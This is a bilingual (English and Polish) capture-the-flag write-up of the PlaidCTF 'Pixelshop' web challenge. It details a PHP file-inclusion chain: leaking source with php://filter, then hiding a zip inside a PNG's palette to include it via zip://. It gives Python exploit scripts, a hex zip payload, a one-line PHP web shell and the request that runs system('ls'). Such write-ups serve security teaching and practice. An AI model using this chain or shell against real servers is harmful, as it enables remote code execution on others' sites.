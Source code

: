 ## Pixelshop (Web, 300 points, 15 solves)

	Everyone loves pixel art, and thanks to PixelShop you can now create pixel art from your browser! Exciting!

###ENG
[PL](#pl-version)

We get access to a webpage where we can upload icons (max 32x32) or even draw an icon with built-in editor.
Those icons are then placed in /uploads directory with random name as png files.
First thing we notice is the navigation on the page handled by a GET parameter `op`, eg `http://pixelshop.pwning.xxx/?op=upload`
We try to put some other values there and we determine that it's a file inclusion for `.php` files.
We use php filter-wrapper `php://filter/read=convert.base64-encode/resource=` to force base64 encoding of the included pages eg:

`http://pixelshop.pwning.xxx/?op=php://filter/read=convert.base64-encode/resource=index`

This way we extract all source files (see [src](src) directory).
Sources analysis brings us to conclusion that:

- The page only includes `.php` files because the extension is always added, and it's a new PHP so no null-byte poisoning
- Any uploaded image will always have `.png` extension
- We can only upload a proper image to the webpage
- The image is stripped from metadata so no way to smuggle something in exif
- We can manually set palette and image pixels using the built-in image edit feature of the webpage.

The first issue we had to overcome was the ability to include a file of our choosing.
It took us a while to figure out the approach but then we come up with an idea that if wrappers helped us once, they might help again.
There is a `zip://` wrapper which enables unzipping archives on the fly and provides access to the stored files.
This means that it's possible to run: `zip://path_to_zip#file_name` as `include()` argument and this way you can include the file from zip.
This means that if we could upload a zip archive with a php file inside to the webpage, we could then include it via:

`http://pixelshop.pwning.xxx/?op=zip://uploads/our_zip%23file_inside`

And this would unpack the archive and include `file_inside.php` file to the page.
This fixes the problem with file extension since we can control extension of the file inside zip.
But there is still problem with how to upload a zip file when we can only upload a valid image file.
It turns out a proper png file can be also a proper zip file!
And the `zip://` does not take extension into consideration so it can unzip a `.png` file just as well, as long as it's a zip file.

We couldn't simply upload our rigged png file since it would be processed by the page, but we could edit it afterwards.
The edit feature provides API to set palette and pixels using JSON. 
Palette is very interesting because it is stored in consecutive bytes inside the PNG file.
Palette needs to come as triplets (for RGB) so we prepare a function to convert given binary payload into palette bytes string:

```python
def form_payload(payload):
    b = ["{:02x}".format(ord(c)) for c in binascii.unhexlify(payload)]
    for i in range(3-(len(b) % 3)): # padding
        b.append("00")
    data = []
    for i in range(0, len(b), 3):
        data.append('"#%s%s%s"' % (b[i], b[i + 1], b[i + 2]))
    return ",".join(data)
```

And we prepare a script to edit selected uploaded png file on the webpage and to set our payload as palette bytes:

```python
def edit_file(imagekey, palette_payload):
    base_url = "http://pixelshop.pwning.xxx/"
    url = base_url + "?op=save"
    img = ",".join(['0' for i in range(32 * 32)])
    payload = form_payload(palette_payload)
    jsonData = """
     {
       "pal": [%s],
       "im":[%s]
     }
    """ % (payload, img)
    data = {"imagekey": imagekey, "savedata": jsonData}
    result = requests.post(url, data=data)
    print(result.content)
    image_url = base_url + "uploads/" + imagekey + ".png"
    png = requests.get(image_url)
    print(" ".join("{:02x}".format(ord(c)) for c in png.content))
```

We execute this with our crafted zip payload:

`payload_raw = "504B0304140000000800EE769148F0D042901D0000002100000005000000732E706870B3B12FC82850508977770D89564F548FD5803293D46335ADEDED78B900504B01021400140000000800EE769148F0D042901D00000021000000050000000000000001002000000029000000732E706870504B0506000000000100010033000000690000000000"`

And we get an image file uploaded on the server:

![](exploit.png) 

Which can be also unzipped, and inside stores `s.php` file with a simple PHP shell inside

```php
<?php $_GET['a']($_GET['b']); ?>
```

With this file safely uploaded in the server as `847cf5ebb78615e61ab646189e3ffbff138801ad.png` we can finally run:

`http://pixelshop.pwning.xxx/?a=system&b=ls&op=zip://uploads/847cf5ebb78615e61ab646189e3ffbff138801ad.png%23s`

Which runs `system('ls')`.

![](ls.png)

![](cat.png)

And we finally get the flag:

`PCTF{P1x3Ls_ar3_nIc3_but_Sh311_15_sw33ter_b271ea7f} `

###PL version

Dostajemy dostęp do strony pozwalającej na uploadowanie ikonek (max 32x32) oraz na rysowanie/edytowanie ikonek przez wbudowany edytor.
Ikonki są następnie zapisywane w katalogu /uploads z losową nazwą jako pliki png.
Pierwsza rzecz którą zauważaliśmy to fakt, ze nawigacja strony odbywa się za pomocą parametru GET `op`, np. `http://pixelshop.pwning.xxx/?op=upload`
Próba umieszczania tam różnych wartości pozwala stwierdzić że ten parametr jest używany jako argument dla include plików `.php`
Wykorzystaliśmy więc filtr-wrapper php `php://filter/read=convert.base64-encode/resource=` żeby wymusić konwersje pliku do base64 przed includowaniem:

`http://pixelshop.pwning.xxx/?op=php://filter/read=convert.base64-encode/resource=index`

We ten sposób uzyskujemy źródła wszystkich plików (patrz katalog [src](src)).
Analiza źródeł pozwala stwierdzić że:

- Strona includuje tylko pliki `.php` ponieważ rozszerzenie jest zawsze doklejane, a jest to nowa wersja PHP niepodatna na null-byte poisoning
- Każdy uploadowany plik będzie miał rozszerzenie `.png`
- Możemy uploadować tylko poprawne obrazki
- Obrazek jest czyszczony z metadanych więc nie ma możliwości przmycić czegoś w exif
- Możemy ręcznie ustawić palete oraz piksele obrazu przez wbudowaną w stronę funkcje edycji ikonek

Pierwszy problem który musieliśmy pokonać to includowanie wybranego przez nas pliku.
Chwile zajęło nam dojście do rozwiązania, ale wreszcie pomyśleliśmy że skoro wrappery pomogły raz to mogą i drugi.
PHP udostępnia wrapper `zip://` który pozwala w locie odpakować archiwum i uzyskać dostęp do jego zawartości.
To oznacza że można wykonać `zip://path_to_zip#file_name` jako parametr `include()` i tym samym includować plik z wnętrza zipa.
To oznacza że gdybyśmy mogli uploadować archiwum zip z plikiem php w środku, to moglibyśmy includować ten plik przez:

`http://pixelshop.pwning.xxx/?op=zip://uploads/our_zip%23file_inside`

I to pozwoliłoby odpakować archiwum i includować plik `file_inside.php` na stronę.
To rozwiązuje problem z rozszerzeniem pliku, ponieważ kontroluejmy rozszerzenie pliku wewnąrz zipa.
Nadal pozostaje jednak problem uploadowania archiwum zip podczas gdy strona pozwala umieszczać tylko poprawne obrazki.
Okazuje się jednak że poprawny plik png może jednocześnie być poprawnym archiwum zip!
A wrapper `zip://` nie bierze pod uwagę rozszerzenia piku więc może odpakować plik `.png` o ile jest to poprawne archiwum.

Nie mogliśmy po prostu uploadować przygotowanego pliku png ponieważ zostałby przez stronę przetworzony, ale mogliśmy do edytować.
Funkcja edycji udostępniała API do ustawiania palety oraz pixeli przez JSONa.
Paleta jest wyjątkowo interesująca bo jest składowana jako kolejne bajty w pliku PNG.
Paleta była przyjmowana jako trójki (RGB) więc przygotowaliśmy funkcje konwertujacą podany payload na palete:

```python
def form_payload(payload):
    b = ["{:02x}".format(ord(c)) for c in binascii.unhexlify(payload)]
    for i in range(3-(len(b) % 3)): # padding
        b.append("00")
    data = []
    for i in range(0, len(b), 3):
        data.append('"#%s%s%s"' % (b[i], b[i + 1], b[i + 2]))
    return ",".join(data)
```

A następnie przygotowaliśmy skrypt edytowal plik png na stronie i ustawiał jako palete wybrane przez nas bajty:

```python
def edit_file(imagekey, palette_payload):
    base_url = "http://pixelshop.pwning.xxx/"
    url = base_url + "?op=save"
    img = ",".join(['0' for i in range(32 * 32)])
    payload = form_payload(palette_payload)
    jsonData = """
     {
       "pal": [%s],
       "im":[%s]
     }
    """ % (payload, img)
    data = {"imagekey": imagekey, "savedata": jsonData}
    result = requests.post(url, data=data)
    print(result.content)
    image_url = base_url + "uploads/" + imagekey + ".png"
    png = requests.get(image_url)
    print(" ".join("{:02x}".format(ord(c)) for c in png.content))
```

Wykonujemy ten skrypt z przygotowanym payloadem zip:

`payload_raw = "504B0304140000000800EE769148F0D042901D0000002100000005000000732E706870B3B12FC82850508977770D89564F548FD5803293D46335ADEDED78B900504B01021400140000000800EE769148F0D042901D00000021000000050000000000000001002000000029000000732E706870504B0506000000000100010033000000690000000000"`

I dostajemy na serwerze plik:

![](exploit.png) 

Który może zostać odpakowany a w środku zawiera plik `s.php` z prostym php shellem:

```php
<?php $_GET['a']($_GET['b']); ?>
```

Z tym plikiem bezpiecznie leżącym na serwerze jako `847cf5ebb78615e61ab646189e3ffbff138801ad.png` możemy wreszcie uruchomić:

`http://pixelshop.pwning.xxx/?a=system&b=ls&op=zip://uploads/847cf5ebb78615e61ab646189e3ffbff138801ad.png%23s`

Co daje nam przykładowo `system('ls')`.

![](ls.png)

![](cat.png)

I finalnie dostajemy flagę:

`PCTF{P1x3Ls_ar3_nIc3_but_Sh311_15_sw33ter_b271ea7f} `
